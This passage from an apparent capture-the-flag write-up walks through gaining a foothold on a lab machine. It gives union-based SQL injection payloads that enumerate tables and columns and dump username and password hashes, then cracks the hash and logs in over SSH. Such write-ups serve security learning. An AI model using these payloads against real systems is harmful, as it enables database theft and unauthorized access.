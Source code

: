 <img src="https://i.imgur.com/LYxS0sE.png"/>


## Foothold

But the table name shown is only one here and it could be that query behind the application is fetching only one record from the database which makes the output limited, we can make use of `group_concat` here

http://www.securityidiots.com/Web-Pentest/SQL-Injection/basic-injection-single-line-or-death.html

```sql
{"'union select null,group_concat(table_name),null from information_schema.tables where table_schema=database() -- ":"12"}
```

Which now returns another table `products`

<img src="https://i.imgur.com/pJMIuBR.png"/>

The same goes for the column names, if we try to dump coulmn_names without group_concat function it will only return one column

```sql
{"'union select null,column_name,null from information_schema.columns where table_schema=database() -- ":"12"}
```

<img src="https://i.imgur.com/VPQAD3B.png"/>

So with group_concat

```sql
{"'union select null,group_concat(column_name),null from information_schema.columns where table_schema=database() -- ":"12"}
```

<img src="https://i.imgur.com/Uwaw9J4.png"/>

Now we can extract the username and password from the table

```sql
{"'union select null,group_concat(username,0x3a,password),null from user -- ":"12"}
```

<img src="https://i.imgur.com/Cw7qWtK.png"/>


This hash can be cracked from crackstation site

https://crackstation.net/

<img src="https://i.imgur.com/F2IeK9t.png"/>

With these credentials we can login through ssh 

<img src="https://i.imgur.com/Evnkxgb.png"/>
